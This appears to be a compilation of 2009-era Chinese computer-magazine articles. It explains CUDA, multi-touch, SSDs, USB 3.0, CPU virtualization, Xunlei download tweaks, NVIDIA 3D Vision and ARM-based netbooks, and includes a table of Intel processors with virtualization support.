目前，支持CUDA的GPU销量已逾1亿，数以千计的软件开发人员正在使用免费的CUDA软件开发工具来解决各种专业以及家用应用程序中的问题。这些应用程序从视频与音频处理和物理效果模拟到石油天然气勘探、产品设计、医学成像以及科学研究，涵盖了各个领域。目前市面上已经部署了超过一亿颗支持CUDA的GPU，数以千计的软件开发人员正在使用免费的CUDA软件工具来为各种应用程序加速。CUDA是用于GPU计算的开发环境，它是一个全新的软硬件架构，可以将GPU视为一个并行数据计算的设备，对所进行的计算进行分配和管理。在CUDA的架构中，这些计算不再像过去所谓的GPGPU架构那样必须将计算映射到图形API（OpenGL和Direct 3D）中，因此对于开发者来说，CUDA的开发门槛大大降低了。CUDA的GPU编程语言基于标准的C语言，因此任何有C语言基础的用户都能很容易地开发CUDA的应用程序。

nVIDIA（英伟达）公司视觉消费型解决方案总经理Michael Steele表示：“无论是在家、在办公室还是在研究实验室，并行计算都是实现视觉计算的关键，而CUDA加速的GPU则是这一趋势背后的头号动力源泉。分布式计算是并行处理的一种理想应用，因此这些优秀的应用程序利用GPU无与伦比的计算能力也就不足为奇了。nVIDIA GPU正在改变着人们工作、娱乐、生活以及探索的方式。”

现阶段基于CUDA开发的应用必须有NVIDIA CUDA-enable的硬件支持，nVIDIA公司GPU运算事业部总经理Andy Keane在一次活动中表示：一个充满生命力的技术平台应该是开放的，CUDA未来也会向这个方向发展。由于CUDA的体系结构中有硬件抽象层的存在，因此今后也有可能发展成为一个通用的GPGPU标准接口，兼容不同厂商的GPU产品。

2008年nVIDIA推出CUDA SDK 2.0版本，大幅提升了CUDA的使用范围，使得CUDA技术愈发成熟。

## 告别鼠标键盘——Multi-touch多点触摸技术

随着时间的前进以及科技的发展，人们逐渐的习惯了用键盘敲击出一行行工整的文字；而曾经用微颤着的手翻动纸张的情形也被鼠标一下下的点击所代替。

用惯了键盘的人们又开始重新考虑这种反复且机械的敲击百十来个按键的输入方式是否合理，换句话说手写记录方式能够沿用数百年甚至上千年也毕竟有着其过人之处。

### 触摸——最早改变电脑使用习惯的技术

在这种“需求”的簇拥下很多的PC产品能够允许用户以“触摸”的形式进行输入等操作，其中表现最明显的就是触摸板。实际上触摸板传感器只是一个印在板表面上的手指轨迹传导线路。触摸屏幕可以被看作是透明的鼠标触摸板，但尽管其与前面所说的鼠标触摸板有着异曲同工之处，可技术实现方式还是有着一定的差别的。现今广泛使用在笔记本电脑上的触摸式液晶屏幕分为两种：压感式与电磁感应式。但无论是压感屏幕还是电磁感应式屏幕，都会有一个特点，那就是仅能够对单一的触点产生作用。换句话说，对于单点触摸屏来说，充其量也仅仅只能作为鼠标以及手写板的替代品。不过不可否认的是，这样的笔记本电脑已经可以满足人们用“笔”来“写”的愿望了。



### 多点触摸——iPhone带来的革命性技术

多点触控在实际应用中被分为两个层面，其一是主控芯片能够同时采集多点信号，其二是能够判断每路手指触摸信号的意义，换句话说就是能够为用户提供手势识别功能。在已上市产品中苹果的iPhone以及MacBook笔记本都能够基本达到这种应用目的，但是目前iPhone仅能允许2个手指同时作用来完成旋转、缩放等功能，最多算是双重触控。而微软的Surface Computer就更加惊人了，能够同时对52个触点产生反应。

相比传统的单点触摸屏4pin或5pin的少量信号线而言，多点触摸屏幕在导电层上划分出了许多独立的触控单元，而每个单元通过独立的引线连接到外部电路。由于所有的触控单元呈矩阵形排布，所以无论用户手指接触到哪一个部分，系统都能够对相应手指动作产生反应。



基于这种运作原理，苹果公司已申请2个多点触摸屏专利，分别命名为Self capacitance（自我电容型）与Mutual capacitance（相互电容型）。从使用层面上看，两种形式的多点触摸屏幕没有明显不同，只是内部结构上Mutual capacitance型多点触摸屏幕拥有相互隔离的驱动线缆和检测线缆，而Self capacitance则只有一层透明电极。不过话说回来；为什么iPhone只能对2点触控进行同时识别而Surface Computer则能够同时处理52个点位呢？在前面我们了解到，多点触摸屏幕在导电层上拥有多个以矩阵型排布的触控单元，这就好像拥有若干条纵横交错的线所产生的交叉点。也就是说只要在拥有这些交叉点的“网”所覆盖的部分进行触摸动作，系统均会对其作出反应。只不过这种反应要受到DSP数字信号处理器以及软件的限制。但是据我们了解，微软的Surface Computer虽然看起来相当神奇，但实际上并没有增加什么“超未来”元件。这个预计售价为10000美金的Surface实际上是



是用若干个投影仪、数码照相机以及红外线感应器组成的，尽管都是市面上可以见到的设备，但是将其组成在一起就产生了更新的应用方式。也许这样的解释，会对那些着迷于Surface的朋友颇感失望，但是我们要说的是，多点触摸技术并非仅限于需要极高工艺才能做到的多层显示屏。以目前的研发速度来看，2008年的笔记本电脑市场将很有可能先吃到多点触摸这块奶酪。当然也能够预测到，先批上市的产品也一定会价格不菲。但是请不要对其丧失信心，请看一看设计在笔记本电脑上的鼠标触摸板，相信未来多点触摸技术将能够同随处可见的鼠标触摸板一样普及。

## 超大号U盘——SSD固态硬盘

### 固态硬盘——何方神圣？

固态硬盘(SolidStateDrive)泛指使用NAND闪存组成的通用存储系统，由控制单元和存储单元(FLASH芯片)两部分组成。存储单元负责存储数据，控制单元负责读取、写入数据。由于固态硬盘没有普通硬盘的机械结构，因而系统能够在低于1ms的时间内对任意位置存储单元完成I/O(输入/输出)操作。而且，固态硬盘也不存在机械硬盘的寻道问题。

固态硬盘有两种方式：基于DRAM(动态随机存储器)和基于闪存的。和所有技术一样，固态硬盘也有自己的优势和劣势，特别是在同硬盘驱动器技术相对比的时候更是如此。在“优势”方面，固态驱动器启动更快(不需要旋转加速)，读取和写入也很快，运行非常安静，消耗更少的电能，产生更少的热量，更可靠，而且能够提供稳定一致的性能。而目前为止的“劣势”方面：固态驱动器要贵许多，容量更少，在突发性电源中断的情况下可能会非常脆弱，写入周期有限，写入速度也更低，存储密度也更低——虽然厂商们(包括诸如EMC这样的主要厂商和类似Pliant这样的新进入者)正在努力研究，进行弥补或者发明出全新的方法来解决这些问题。

由于采用FLASH存储介质，它内部没有机械结构，因此没有数据查找时间、延迟时间和寻道时间。众所周知，一般硬盘的机械特性严重限制了数据读取和写入的速度，而固态硬盘在操作系统中就是一个普通的盘符，用户可以完全把它作为存储介质来使用。固态硬盘主要有以下优点：第一，数据存取速度快。第二，经久耐用、防震抗摔。因为全部采用了闪存芯片，所以固态硬盘内部不存在任何机械部件，这样即使在高速移动甚至伴随翻转倾斜的情况下也不会影响到正常使用。第三，固态硬盘工作时非常安静，没有任何噪音产生。得益于无机械部件及闪存芯片较小的发热量小、散热快等特点，SSD固态硬盘因为没有机械马达和风扇，工作噪音值为0分贝。第四，SSD固态硬盘比常规1.8英寸硬盘重量轻20~30克。

### MLC与SLC的同城之战

SLC英文全称(Single Level Cell——SLC)即单层式储存。主要由三星、海力士、美光、东芝等使用。SLC技术特点是在浮置闸极与源极之中的氧化薄膜更薄，在写入数据时通过对浮置闸极的电荷加电压，然后透过源极，即可将所储存的电荷消除，通过这样的方式，便可储存1个信息单元，这种技术能提供快速的程序编程与读取，不过此技术受限于Silicon efficiency的问题，必须要有较先进的流程强化技术(Process enhancements)，才能向上提升SLC制程技术。

MLC英文全称（Multi Level Cell——MLC）即多层式储存。主要由东芝、Renesas、三星使用。英特尔（Intel）在1997年9月最先开发成功MLC，其作用是将两个单位的信息存入一个Floating Gate（闪存存储单元中存放电荷的部分），然后利用不同电位（Level）的电荷，通过内存储存的电压控制精准读写。MLC通过使用大量的电压等级，每一个单元储存两位数据，数据密度比较大。SLC架构是0和1两个值，而MLC架构可以一次储存4个以上的值，因此，MLC架构可以有比较好的储存密度。

鉴于目前市场主要以SLC和MLC储存为主，我们多了解一下SLC和MLC储存。SLC架构是0和1两个值，而MLC架构可以一次储存4个以上的值，因此MLC架构的储存密度较高，并且可以利用老旧的生产设备来提高产品的容量，无须额外投资生产设备，拥有成本与良品率的优势。与SLC相比较，MLC生产成本较低，容量大。如果经过改进，MLC的读写性能应该还可以进一步提升。

MLC架构有许多缺点，首先是使用寿命较短，SLC架构可以存取10万次，而MLC架构只能承受约1万次的存取。其次就是存取速度慢，在目前技术条件下，SLC架构比MLC架构要快三倍左右。再者，MLC能耗比SLC高，在相同使用条件下比SLC要多15%左右的电流消耗。虽然与SLC相比，MLC缺点很多，但在单颗芯片容量方面，目前MLC还是占了绝对的优势。由于MLC架构和成本都具有绝对优势，能满足未来2GB、4GB、8GB甚至更大容量的市场需求。

### 固态硬盘的用途

SSD最早主要应用于军事、航天、精密工业这些对资料安全度极度重视、且有能力负担昂贵成本的领域；另一个应用较广泛的领域就是笔记本。iSuppli公司技术报告显示，2009年第4季度将有约54%的超轻薄笔记本电脑使用混合硬盘，而28%将会使用SSD。

毫无疑问，固态硬盘是下一代存储介质的先锋者，但是可以预计的是，2009年，将仍然只是固态硬盘表演的一年，只有价格真正下降到发烧友可以接受，那么普及才算是真正开始。一整年，留给SSD的时间还有很多。



## 使用最频繁的接口再次升级——USB 3.0

USB称得上是目前最为成功，最有优势的外设接口规范，随着时代的发展，外设的进步，USB接口规范也需要有相应的配套升级，于是所谓的“SuperSpeed USB”（超高速USB）出现了，也就是我们今天要重点解释和介绍的USB 3.0。

USB 3.0有两大最能拿得出手的东西，就是传输速度和兼容性。不过，听起来似乎很简单，但是实际却需要一些复杂而艰难的改变。

### 速度快了10倍

USB 3.0简要规范如下：

- 提供了更高的每秒4.8Gb传输速度。
- 对需要更大电力支持的设备提供了更好的支撑，最大化了总线的电力供应。
- 增加了新的电源管理职能。
- 全双工数据通信，提供了更快的传输速度。
- 向下兼容USB 2.0设备。

USB 2.0为各式各样的设备以及应用提供了充足的带宽，但是，随着高清视频、TB（1000GB）级存储设备、高达千万像素数码相机、大容量的手机以及便携媒体播放器的出现，更高的带宽和传输速度就成为了必需。

每秒480Mb的传输速度可能都已经不算快了，更何况目前没有哪个USB 2.0设备能够达到这个理论上的最高限速。在实际应用中，能够达到每秒320Mb的平均速度就已经很不错了。

同样，其实USB 3.0同样达不到4.8Gb的理论值，但，哪怕只能达到理论值的5成，那也是接近于USB 2.0的10倍了。

### 超高速度何处来？

USB 3.0之所以有“超速”的表现，完全得益于技术的改进。相比目前的USB 2.0接口，USB 3.0增加了更多并行模式的物理总线。它在原有4线结构（电源，地线，2条数据）的基础上，USB 3.0再增加了4条线路，用于接收和传输信号。因此不管是线缆内还是接口上，总共有8条线路。

正是额外增加的4条（2对）线路提供了“SuperSpeed USB”所需带宽的支持，得以实现“超速”。显然在USB 2.0上的2条（1对）线路，是不够用的。



USB 3.0规范数据传输线缆内部结构

此外，在信号传输的方法上仍然采用主机控制的方式，不过改为了异步传输。USB 3.0利用了双向数据传输模式，而不再是USB 2.0时代的半双工模式。简单说，数据只需要朝着一个方向流动就可以了，简化了等待引起的时间消耗。

### 除此之外……

“SuperSpeed USB”的改进远不止在传输速率方面的提升。在USB 3.0中，设备和电脑主机之间如何更加融洽地配合，也被当作了一项重点研究的方向。在继承USB 2.0核心架构的基础上，如何利用双总线模式的优势，如何让用户能够直接体验到USB 3.0比USB 2.0的先进，成为了重点。

### 需要时能提供更多电力

USB 3.0能够提供50%~80%更多的电力支持那些需要更多电能驱动的设备，而那些通过USB来充电的设备，则预示着能够更快地完成充电。

新Powered-B接口由额外的2条线路组成，提供了高达1000毫安的电力支持。完全可以驱动无线USB适配器，而摆脱了传统USB适配器靠线缆连接的必要。通常有线USB设备需要连接到集线器或者是电脑本身，而高电能支持下，就不需要再有“线”存在了。

### 不需要时就自动减少耗电

转换到USB 3.0，功耗也是要考虑的很重要的一个问题，因此有效的电源管理就很必要，可以保证设备在空闲的时候减少电力消耗。

大量的数据流传输需要更快的性能支持，同时传输的时候，空闲时设备可以转入到低功耗状态。甚至可以空下来去接收其他的指令，完成其他动作。

其实，在USB 3.0中也并不是所有的东西都更新换代了，比如线缆的长度。当在某些应用中需要尽可能高的吞吐量的时候，往往线缆依旧会成为瓶颈。虽然在USB 3.0规范中，没有明确指定USB线缆有多长，但是电缆材质和信号质量还是影响了传输的效果。因此在传输数百兆大数据流的时候，线缆长度最好不要超过3米。

### USB 3.0即将走入生活

到2010年，主板将首先会向USB 3.0接口转变，“SuperSpeed”规范的接口将在新PC上成为标配。同时，设备厂商也就不得已被动地向USB 3.0转化。



最后，USB 2.0将会和USB 1.1一样逐步地被淘汰。不过，现在甚至在可以预见的将来，USB 2.0相关设备依旧触手可及。

## 一个平台同时运行多个操作系统——CPU虚拟化技术

我们选购CPU的时候，对于这项CPU虚拟化技术的支持，通常并不在意，因为这是我们日常应用所接触不到的环节，但对于一些资深人员提到虚拟技术并不陌生。这项技术在传统的大型机和Unix系统上早已是很普及了，但因为桌面处理器大都使用的是X86架构，决定了在其之上使用硬件级虚拟化技术的难度。

### 虚拟化是什么？

现在我们来说说CPU虚拟化的概念：简单说来，CPU的虚拟化技术就是单CPU模拟多CPU并行，允许一个平台同时运行多个操作系统，并且应用程序都可以在相互独立的空间内运行而互不影响，从而显著提高计算机的工作效率。虚拟化技术与多任务以及超线程技术是完全不同的。多任务是指在一个操作系统中多个程序同时并行运行，而在虚拟化技术中，则可以同时运行多个操作系统，而且每一个操作系统中都有多个程序运行，每一个操作系统都运行在一个虚拟的CPU或者是虚拟主机上。而超线程技术只是单CPU模拟双CPU来平衡程序运行性能，这两个模拟出来的CPU是不能分离的，只能协同工作。

CPU的虚拟化技术是一种硬件方案，支持虚拟技术的CPU带有特别优化过的指令集来控制虚拟过程，通过这些指令集，VMM会很容易提高性能，相比软件的虚拟实现方式会在很大程度上提高性能。虚拟化技术可提供基于芯片的功能，借助兼容VMM软件能够改进纯软件解决方案。由于虚拟化硬件可提供全新的架构，支持操作系统直接在上面运行，从而无需进行二进制转换，减少了相关的性能开销，极大简化了VMM设计，进而使VMM能够按通用标准进行编写，性能更加强大。另外，在纯软件VMM中，目前缺少对64位客户操作系统的支持，而随着64位处理器的不断普及，这一严重缺点也日益突出。而CPU的虚拟化技术除支持广泛的传统操作系统之外，还支持64位客户操作系统。虚拟化技术是一套解决方案。完整的情况需要CPU、主板芯片组、BIOS和软件的支持，例如VMM软件或者某些操作系统本身。即使只是CPU支持虚拟化技术，在配合VMM的软件情况下，也会比完全不支持虚拟化技术的系统有更好的性能。

### 哪里能用到虚拟化

想象一下，一个操作系统几乎不需花任何时间就可被启动，即使它崩溃了，你只需简单地将它剔除出去，同时立即装载一个新的。如果你正在同时运行几个操作系统，当你准备给其中一个载入新的映像时，你可马上将它关闭，并把该系统正在处理的工作分流给其他系统运行。如果你有5个RedHat的副本正在运行Apache服务器软件，而其中一个因满负荷而停止响应，没问题，你只需简单地将响应请求转交给其他4个系统处理，同时重启那个停止工作的系统就行了。如果你已为你正在运行的操作系统存储了一份“快照”，那么每当有一些不愉快的事情发生时你都可重新启动它，例如被黑客攻击、感染病毒，从一个安全的分区载入映像并修复好它就行了。虚拟化还可让用户毫不费时地重新安装操作系统而不需像以往使用Ghost那样去安装设备驱动。你可简单地就像使用普通程序那样去载入、卸载和存储操作系统。

同样，它也允许你在同一台机器上使用多个不同的操作系统。如果你是一名程序员，需要编写代码使它们在Windows 95/98/Me/2000/XP/Vista上都能运行，你可在你的办公桌上准备5台机器或是1台运行了5种虚拟操作系统的电脑。同时，作为程序员的你需在每个浏览器的每个版本上校验这些代码，很明显微软不会让你在一个已拥有高版本IE的情况下去安装更低版本的IE去做这些事，但你可一个个地安装旧的操作系统或采取更好一些的解决方法——让它们同时运行。

虚拟化技术给人们带来了惊喜，它让我们可在硬件级别上完成计算机的虚拟化工作。目前时机成熟了，CPU中引入该技术，这让更多的用户都能涉足到新技术的应用，大大提高了用户使用处理器的效率，编写VMM不再那么困难了。不过我们也要清醒地认识到，现有的虚拟技术不会马上消失，相反它们会变得更为普遍，随着电脑硬件的价格走低，且系统开销问题得到改善，而大型服务器提供商们也不会在现有的技术上发生巨大的变化，毕竟目前还用得过去。因此VT想要取代现有的计算机虚拟技术或得到人们的认同还需一段时间。可我们相信硬件级别的虚拟化技术毋庸置疑是未来计算机发展的方向，有着灿烂的前途。



## 一骑绝尘——下载速度我最快

文/江北书生

2009年第4期第23页上有一篇《为什么别人下载速度比我快》文章，笔者认为理论性过强，事实上通过迅雷就可以很好地突破网通铁通的限制，更快地下到。但是真正要让迅雷快起来，还需要掌握一些技巧。

### 使用最新的迅雷

毫无疑问，最新版的迅雷是修正了已知的bug，下载速度是最快的。最新版本的迅雷还进行了技术升级，可以下载到更多的电骡资源。

### 破解半开连接数限制

半开连接数限制是从Windows XP SP2开始设置的，Windows XP SP2/SP3、Windows Vista/Windows Vista SP、Windows 7中都存在。此限制数会降低下载速度。

- 用迅雷自己来破解
如果大家使用Windows XP SP2/SP3、Windows Vista，只要在迅雷中选择“工具→系统优化工具”，再在打开的窗口中输入相应的数值即可。据微软资料显示，一般设置为256-384之间比较好。

- 用TCP-Z来破解
如果大家使用Windows Vista SP1/7，可以通过TCP-Z来破解。从http://soft3.wmzhe.com/download/deepxw/TCPZ_20090205.zip处下载并安装TCP-Z，然后进入VirtualDevice文件夹，右击TCPZ_Setup-x86.exe，选择“以管理员身份运行”，单击“安装驱动程序”按钮，选择安装驱动程序。之后，打开“设备管理器”（该程序会自动打开），双击TCPZ Driver下的TCP Half Open Limited Patcher（TCP-Z）项，在打开窗口中单击Properties（属性）标签，然后在“期望数值”中输入相应的值(0表示无限制)，单击“保存”按钮，重新启动系统生效！

> 小提示
或许微软已经意识这个问题，在Windows Vista SP2中将会更改设置，允许用户通过修改注册表就来更改半开连接数的数值。

### 打开UPnP功能

现在多数人使用的是内部IP上网，因为内部IP地址不可路由，所以无法直接与外部进行数据交换，这样就无法接受外部的BT客户端的主动连接，这样一来peers自然会少出很多。不仅无法从这些peers处得到数据，而且我们也无法向他们上传数据。根据BT精神，我们上传得越少，其速度就会越慢！解决这个问题是首先让迅雷支持UPnP。

- 打开路由器UPnP功能
首先让路由器支持UPnP，每台路由器的设置不尽相同，大家可以自行参考说明书。

- 让系统打开相应服务
要让迅雷支持UPnP，系统一些服务也要打开。如果我们使用的是Windows XP，需要打开SSDP Discovery Service服务。如果使用的是Windows Vista，则要将Funtion Discovery Resource Publication、UPnP Device Host和SSDP Discovery Service等服务均设置为自动。

- 开启迅雷UPnP
打开迅雷，选择“工具→配置”命令，再选择“BT/端口设置”，然后选中“允许连接DHT网络 ”和“允许使用UPnP自动端口映射功能”复选框。之后，我们可以看到迅雷5中左下角“网络”项的图标已经是绿色，单击后可以看到UPnP已经正常。

### 开启迅雷KAD网络

新版迅雷全面支持KAD网络，这样就意味着迅雷在下载电骡资源时可以走“更广”的KAD网络，可以在此网络中寻找下载同一文件的其他用户。选择“工具→配置”，在打开的窗口中单击“EMule/端口设置”，确认“连接KAD连接网络”。

### 让迅雷用上更大的空间

右击迅雷主窗口中的“已下载”，选择“属性”。然后设置空间比较大的默认文件夹。

### 不要使用SSD固态硬盘来下载

事实上，固态硬盘的控制芯片和固件对其性能有着非常关键的影响。其固件中包含对闪存存储空间的进行分配，以及平衡闪存负载的算法。有些SSD在进行长期工作后，尤其是进行大量的临时文件读写，频繁的文件增删作业后，会产生大量的碎片。由于存储原理的不同，目前所有的磁盘碎片整理软件对固态硬盘都无能为力，这时它的读写速度会大大下降。

## 支持虚拟化技术的Intel处理器

| 处理器类型 | 型号 | 支持虚拟化 |
| ---- | ---- | ---- |
| Core i7/Core i7 Extreme | I7-920/940 | YES |
| Core i7/Core i7 Extreme | I7-965 | YES |
| Core 2 Duo | E4300/4400/4500/4600/4700 | NO |
| Core 2 Duo | E6300/6320/6400/6420/6540/6550 | YES |
| Core 2 Duo | E6600/6700/6750/6850 | YES |
| Core 2 Duo | E7200/7300/7400/7500 | NO |
| Core 2 Duo | E8190 | NO |
| Core 2 Duo | E8200/8300/8400/8500/8600 | YES |
| Pentium for Desktop | E2140/2160/2180/2200/2220 | NO |
| Pentium for Desktop | E5200/5300/5400 | NO |
| Core 2 Extreme | QX6700/6800/6850 | YES |
| Core 2 Extreme | QX9650/9770/9775 | YES |
| Core 2 Extreme | X6800 | YES |
| Core 2 Quad | Q6600/6700 | YES |
| Core 2 Quad | Q8200/8200S/8300/8400/8400S | NO |
| Core 2 Quad | Q9300/9400/9400S | YES |
| Core 2 Quad | Q9450/9550/9550S/9650 | YES |
| Pentium D/Pentium EE | 805/820/830/840 | NO |
| Pentium D/Pentium EE | 915/925/935/945 | NO |
| Pentium D/Pentium EE | 920/930/940/950/960 | YES |
| Pentium D/Pentium EE | 955/965 | YES |
| Core 2 Duo Mobile | L7200/7300/7400/7500 | YES |
| Core 2 Duo Mobile | P7350/7450 | NO |
| Core 2 Duo Mobile | P7370 | YES |
| Core 2 Duo Mobile | P8400/8600/8700/9500/9600 | YES |
| Core 2 Duo Mobile | SL9300/9400/9600 | YES |
| Core 2 Duo Mobile | SP9300/9400/9600 | YES |
| Core 2 Duo Mobile | SU9300/9400/9600 | YES |
| Core 2 Duo Mobile | T5200/5250/5270/5300/5450/5470 | NO |
| Core 2 Duo Mobile | T5500/5600 | YES |
| Core 2 Duo Mobile | T5550/5670/5750/5800/5850/5870/5900 | NO |
| Core 2 Duo Mobile | T6400/6570 | NO |
| Core 2 Duo Mobile | T7100/7200/7250/7300/7400 | YES |
| Core 2 Duo Mobile | T7500/7600/7700/7800 | YES |
| Core 2 Duo Mobile | T8100/8300 | YES |
| Core 2 Duo Mobile | T9300/9400/9500/9550/9600/9800 | YES |
| Core 2 Duo Mobile | U7500/U7600 | YES |
| Core 2 Solo | SU3300/3500 | YES |
| Core 2 Solo | U2100/2200 | YES |
| Core 2 Extreme Mobile | QX9300 | YES |
| Core 2 Extreme Mobile | X7800/7900 | YES |
| Core 2 Extreme Mobile | X9000/9100 | YES |
| Core 2 Quad Mobile | Q9000 | YES |
| Core 2 Quad Mobile | Q9100 | NO |
| Core Duo | L2300/2400/2500 | YES |
| Core Duo | T2050/2250 | NO |
| Core Duo | T2300/2400/2500/2600/2700 | YES |
| Core Duo | T2300E/2350/2450 | NO |
| Core Duo | U2400/2500 | YES |
| Core Solo | T1300/1400 | YES |
| Core Solo | T1350 | NO |
| Core Solo | U1300/1400/1500 | YES |## 3D游戏，以假乱真

3D，这个词对于大家可能早已不陌生，“大型3D游戏”“专业3D绘图软件”等等名号在计算机世界里可谓比比皆是，也早有3D电影院、3D显示器等产品出现在市场上，已经基本上是一个炒烂了的话题。

综上所述，3D显示技术要突破市场，首先是价格问题，第二是游戏软件配合度的问题，第三是驱动程序的优化问题。而且在背后，必须要有一家有魄力和实力解决这些问题的重量级厂商提供鼎力支持。而今天，nVIDIA绝对是有这种实力和决心的厂商，因为他们带来了全新的3D Vision显示技术，让我们一起来看看。

对于已经尝试过这个领域的nVIDIA而言，前路只有两条，其一是继续大幅度依赖合作伙伴来推进3D显示技术；其二便是吸取前次失败教训，修改市场策略：提高3D眼镜显示质量、改善驱动程序、使用120Hz刷新率LCD显示器。

## 三维效果从何而来？频繁切换左右镜片

nVIDIA这套3D视觉套装给人的感觉就像在电影院里观看3D电影一样，都是需要佩戴眼镜。但这并不意味着两者技术原理一样。如果采用像3D电影那样从拍摄制作、放映、接收等都采取特殊手段的方案，仅凭个人之力是承担不起的。因此，nVIDIA另辟蹊径，只在接收环节上做文章。

nVIDIA的做法很简单，那就是频繁地切换眼镜左右镜片的可视性。在一个时刻，左镜片打开而右镜片关闭，使得玩家只有左眼才看到游戏画面；而在下一个单位时间里，右镜片打开而左镜片关闭，使得玩家只有右眼才看到游戏画面。如此交替反复形成视觉交叉，即可产生三维的视觉错觉。虽然在效果上，nVIDIA的这种手段比3D电影工业形成的立体有一定差距，但它的好处在于，不需要很困难地寻找游戏源，这也正是为什么游戏软件不需要特别改造的原因。事实上，凡是参与nVIDIA “The Way” 的游戏都可以支持这套方案。

## 需要购买120Hz刷新率的液晶

虽然3D视觉方案对软件的要求不高，但对硬件有一定的要求，关键就是显示器。基本上之前主流的液晶产品都不符合要求，因为它们的刷新率不够高。左右切换双眼可视性的前提是，显示器的刷新率要两倍于正常观看情况下显示器的刷新率，这意味着如果要不使眼睛产生疲劳，那么液晶显示器的刷新率至少要120Hz以上。如此一来，单眼“获得”的刷新率就是60Hz，这个频率是保护眼睛的底线。目前市场上，具备120Hz刷新率的PC液晶显示器还不多，主要集中在三星和优派少数几个品牌，比如三星在CES 2009上为配合nVIDIA GeForce 3D套装而特别发布的22英寸宽屏2233RZ。当然，你也可以使用120Hz刷新率的平板电视，但那需要你的PC显卡支持视频输出才行。

## 成本有望在今年大幅下降

根据计划，3D Vision for GeForce将向全球市场投放，据悉，其国内代理已经确定，因此将在市场上露面。至于价格，按照美国市场上先期上市的情况看，售价为199美元。应该说这个价格尚能接受。然而，120Hz液晶显示器的价格要高得多，22英寸此类显示器售价399美元。总的算来，硬件支出在4000元人民币左右，这已经是一部较好配置的PC的价格。

当然，体验成本较高是暂时的。事实上，你也可以用高刷新率的纯平显示器代替液晶显示器，那样一来花销就下降许多。而根据趋势来看，以120Hz为代表的高刷新率PC液晶很有可能在2009年从萌发走向流行乃至普及，届时的价格也必然下滑。而除了游戏，用户也可以用nVIDIA的这套方案观看三维高清，相信别有风味。如果再考虑到裸眼3D技术正在快速发展，可以感觉到一个三维显示时代正在“扑面而来”。如果说3D Vision for GeForce还主要是高端玩家的专利，那么要不了多久，任何人都可以轻而易举地用各种方式在PC上体验一把3D的魅力了。

## 随着3D应用的发展，120Hz会逐步得到普及

120Hz在液晶电视领域是很风靡的一个指标，但在液晶显示器领域还很陌生。其实120Hz在两个领域的含义并不相同。液晶电视的120Hz，是针对国内电视50Hz刷新率，为了消除拖尾现象，芯片处理器采用插值运算，自动填补中间帧，使电视画面增多，变得连贯。而液晶显示器120Hz，是基于3D显示的一种针对人眼保护机制，保证单眼能获得60Hz刷新率，从而形成3D视觉特效。目前三星是全球120Hz液晶面板出货量的领导者，尽管显示器对120Hz的需求并非特别高，但将来随着3D应用的发展，也会逐步得到普及。



## 嵌入式芯片转战上网本，Cortex-A8功耗仅为“凌动”1/7

谁是世界上卖得最多的芯片？大概很多人都认为是Intel。不过答案却是ARM。截至2008年初，ARM公司宣布由其合作伙伴所出货的处理器总量已超过100亿个，其芯片出货量远远超过了任何一个厂商的数目，其在市场的领导地位至今无人可以撼动。而现在，ARM要进军上网本市场了。

## 微软正在开发新系统支持ARM

事实上，ARM处理器要在电脑产品中推而广之的前提，最大悬念不在于性能是否够用，而是在于ARM的操作系统支持。ARM处理器不是X86产品，因此无法运行Windows及其平台上的应用程序，目前唯一可用在以ARM架构上的Windows版本是Windows Mobile。即使是Linux，也不是所有版本的Linux都可以用在ARM平台上，这将严重阻碍ARM上网本的接受程度。不过，最新消息显示OLPC正在与微软谈判，以促使后者为ARM上网本开发Windows操作系统，并“确信”相关成果在18个月后面世。如果这样的合作真的成功的话，那么就软件来说，基于ARM和以X86为代表的“凌动”处理器的上网本的使用将不会有什么两样。

据悉，和硕和微星正在考虑推出基于ARM和NVIDIA芯片组的电脑产品，具体情况可能在6月的台北电脑展上予以发布。无独有偶的是，最近百元笔记本之父尼葛洛庞帝也声称，下一代的百元笔记本将采用ARM作为处理器。而此前，OLPC笔记本采用的是基于K7内核的AMD处理器。甚至有消息称，威盛也有可能推出采用ARM处理器的电脑平台。毫无疑问，ARM处理器正在电脑市场掀起一股热潮，并且得到了越来越多终端厂商的正面回应。



## 智能手机芯片将为电脑带来更节能、开机速度更快的效果

显然，ARM处理器如果用在电脑产品上，它不可能进入酷睿处理器所在的市场。作为一种“嵌入式”产品，与其说ARM是处理器，不如说它是一颗提供“一站式”功能的系统级芯片，所以，就处理器性能而言，ARM不会很强，它所威胁的电脑处理器应该是英特尔的“凌动”系列处理器。
换句话说，使用ARM处理器的电脑产品应该以上网本为代表的移动设备为主，OLPC等厂商将要发布的ARM电脑产品也说明了这一点。
那么，与“凌动”处理器比较起来，ARM的表现如何呢？基本上，两者互有优劣。近期推出的ARM电脑产品中使用的是4年前推出的Cortex-A8处理器，性能堪比Intel Atom Z530。而且它非常节能，这也是电脑厂商“看好”ARM处理器的最大原因。Cortex-A8的功耗不到300毫瓦，这只是“凌动”处理器最节电状态下的1/7。

## 对比竞争者有利有弊

但是，在与对手的比赛中，ARM始终有一个软肋为对手所攻击，即媒体上宣传比较多的一种观点：目前互联网上的绝大部分应用都是基于IA架构开发的，而当移动互联网设备采用非IA架构的平台时（比如ARM平台），欲将这些已有的应用移植过来并不是很容易，因为ARM指令与IA指令不能完全沟通。针对此种观点，谭军只承认一部分，他说：“英特尔有些误导用户。其实，互联网上的应用，都是基于浏览器和JAVA这两种应用，与终端是ARM架构还是X86架构没有关系。比如说，访问网站的页面，如果新的浏览器将Flash和字库做进去后，在ARM平台上一样很流畅，不会像英特尔所宣传的那样出现乱码。”但是他也不得不承认，有些基于C或C+语言的应用，在移植到ARM平台上时，需要转换。不过，他指出，如果X86平台采用Linux操作系统的话，这些应用即使移植到X86平台也需要转换。而现在微软还没有发布针对英特尔新一代低功耗嵌入式X86架构的操作系统。“所以不能一概而论。”他总结道。

## 云计算是否成熟决定ARM电脑命运

有趣的是，作为ARM要蚕食的对象，“凌动”处理器也正在努力打入ARM的地盘，即智能手机芯片市场。这充分说明，以上网本为代表的移动电脑终端和高端智能手机已经差不多是一回事情了，因此，ARM切入电脑市场可行。
而按计划，ARM将要推出型号为Cortex-A9的处理器，其支持多核，据称这才是挑战“凌动”的真正武器。理论上ARM电脑的成本比“凌动”产品低，说实话，现在上网本的价格仍旧太高。总体来看，决定ARM电脑前途的将是应用环境，如果云计算按部就班在2012年成熟，那么届时ARM电脑将大有可为，否则其只能作为边缘产品。据悉，Cortex-A9将于今明两年供货，而OLPC的ARM产品将在三周后透露细节。也许到了6月份，一切将有眉目，拭目以待。

## 漫谈处理器接口发展

